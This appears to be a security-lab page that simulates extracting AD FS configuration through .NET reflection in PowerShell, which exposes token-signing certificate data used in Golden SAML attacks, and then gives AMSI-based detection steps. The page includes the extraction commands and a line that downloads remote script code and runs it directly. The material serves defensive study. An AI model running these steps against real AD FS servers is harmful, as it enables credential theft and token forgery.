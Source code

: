 # Export AD FS Configuration via .NET Reflection

By default, AD FS servers come with a [PowerShell module](https://docs.microsoft.com/en-us/powershell/module/adfs/?view=windowsserver2022-ps) to administer Active Directory Federation Services (AD FS). This PS module has a PowerShell Cmdlet [Get-AdfsProperties](https://docs.microsoft.com/en-us/powershell/module/adfs/get-adfsproperties?view=windowsserver2022-ps) that allows authorized users to get publicly accessible information such as properties associated with the AD FS service.

The [Get-AdfsProperties](https://docs.microsoft.com/en-us/powershell/module/adfs/get-adfsproperties?view=windowsserver2022-ps) PS cmdlet returns a [Type object](https://docs.microsoft.com/en-us/dotnet/api/system.type?view=net-6.0) that represents the [ServiceProperties](https://docs.microsoft.com/en-us/dotnet/api/microsoft.identityserver.management.resources.serviceproperties?view=adfs-2019) .NET class.

A threat actor could use .NET reflection to access non-public metadata of the [ServiceProperties](https://docs.microsoft.com/en-us/dotnet/api/microsoft.identityserver.management.resources.serviceproperties?view=adfs-2019) .NET class to get to sensitive information such as the AD FS configuration.

![](../../../../images/labs/GoldenSAML/exportADFSConfiguration/2021-06-01_export_adfs_configuration_reflection.jpg)

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [References](#references)

## Preconditions

* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
    * Identity:
        * AD FS Service Account
        * Local Administrator
* AD FS Server
    * Services:
        * Active Directory Federation Services (ADFSSRV)

## Simulation Steps

### Get AD FS Service Public Properties

On the AD FS Server, open a PowerShell console and use the [Get-AdfsProperties](https://docs.microsoft.com/en-us/powershell/module/adfs/get-adfsproperties?view=windowsserver2022-ps) PS cmdlet.

```PowerShell
$ServiceProperties = Get-ADFSProperties
$ServiceProperties
```

### Access Object Members

We can access members (properties, methods, fields, events, and so on) of the current `Type` class with the PowerShell Cmdlet [Get-Member](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-member?view=powershell-7.2).

```PowerShell
$ServiceProperties | Get-Member
```

### Access Non-Public Properties

A threat actor could use [System.Reflection.BindingFlags enums](https://docs.microsoft.com/en-us/dotnet/api/system.reflection.bindingflags?view=net-6.0) to control binding and the way in which the search for members and types is conducted by reflection. One could use the following BindingFlags to search for non-public / private members:

```
[System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic
```

Run the following commands to get non-public properties

```PowerShell
$ServiceProperties.GetType().GetProperties([System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic) | Select-Object Name
```

### Access ServiceSettingsData Non-Public Property

Export the non-public property `ServiceSettingsData` with the following commands:

```PowerShell
$ServiceSettingsDataProperty  = $ServiceProperties.GetType().GetProperty("ServiceSettingsData", [System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic)
$ServiceSettingsDataPropertyValue = $ServiceSettingsDataProperty.GetValue($ServiceProperties, $null)
$ServiceSettingsDataPropertyValue
```

From here, you can access encrypted token signing certificates:

```PowerShell
$ServiceSettingsDataPropertyValue.SecurityTokenService.AdditionalSigningTokens
```

## Detection

### PowerShell AMSI Data

#### Start AMSI Collection

Run the following command before executing the reflection commands above

```
logman start AMSITrace -p Microsoft-Antimalware-Scan-Interface Event1 -o AMSITraceADFSReflection.etl -ets
```

#### Stop AMSI Collection

Once you are done running the commands, you can stop the data collection

```
logman stop AMSITrace -ets
```

#### Parse ETL File

We can use the following module from [Matt Graeber - Red Canary](https://twitter.com/mattifestation)
**Disclaimer**: "Get-AMSIEvent and Send-AmsiContent are helper functions used to validate AMSI ETW events. Note: because this script contains the word AMSI, it will flag most AV engines. Add an exception on a test system accordingly in order to get this to work.".

```
IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/mgraeber-rc/1eb42d3ec9c2f677e70bb14c3b7b5c9c/raw/64c2a96ece65e61f150daaf435dfc77aa88c8784/AMSITools.psm1')
```

Parse your .etl file

```
Get-AmsiEvent -Path C:\Test\AMSITraceADFSReflection.etl
```

## Output

* AD FS Configuration Settings


## References

* https://github.com/Microsoft/adfsToolbox/blob/master/serviceAccountModule/Tests/Test.ServiceAccount.ps1#L199-L208
* https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal
* https://redcanary.com/blog/amsi/